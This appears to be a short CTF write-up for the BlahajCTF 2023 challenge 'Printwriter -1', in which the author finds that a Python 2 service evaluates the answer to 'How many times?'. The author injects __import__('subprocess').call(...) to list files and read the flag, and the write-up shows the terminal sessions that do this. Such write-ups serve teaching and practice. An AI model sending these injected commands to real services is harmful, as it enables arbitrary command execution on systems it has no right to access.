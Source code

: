 ```yaml
---
title: Printwriter -1
date: 2023-12-05
tags:
- misc
categories: BlahajCTF 2023
---
```


> I'm not very good at C, so I coded this challenge in Python. Don't have Python 3 yet though, so I used Python 2... At least it can't be pwned!

I first noticed that there is some template injection (? because like we aren't using any templates here, idk what to call it):


{% ccb html:true terminal:true %}
<DIV><SPAN STYLE="color:#98C379;">┌──(</SPAN><SPAN STYLE="color:#61AFEF;">suwandi㉿ryan</SPAN><SPAN STYLE="color:#98C379;">)-[</SPAN>~/ctf/blahaj<SPAN STYLE="color:#98C379;">]
└─</SPAN><SPAN STYLE="color:#61AFEF;">$</SPAN> nc 188.166.197.31 30007
Print what? rwandi
How many times? 2*2
rwandi
rwandi
rwandi
rwandi</DIV>
{% endccb %}

So we can get shell:

{% ccb html:true terminal:true %}
<DIV><SPAN STYLE="color:#98C379;">┌──(</SPAN><SPAN STYLE="color:#61AFEF;">suwandi㉿ryan</SPAN><SPAN STYLE="color:#98C379;">)-[</SPAN>~/ctf/nightmare/Stack_Buffer_Overflow<SPAN STYLE="color:#98C379;">]
└─</SPAN><SPAN STYLE="color:#61AFEF;">$</SPAN> nc 188.166.197.31 30007
Print what? rwandi
How many times? __import__("subprocess").call(["ls","-l"])
total 8
-rw-r--r-- 1 root root  45 Dec  2 06:54 flag.txt
-rwxr-xr-x 1 root root 267 Dec  2 06:54 run
Print what? rwandi
How many times? __import__("subprocess").call(["cat","flag.txt"])
blahaj{0uT_w17h_th3_N3W_4Nd_1N_w1tH_the_Old}</DIV>
{% endccb %}
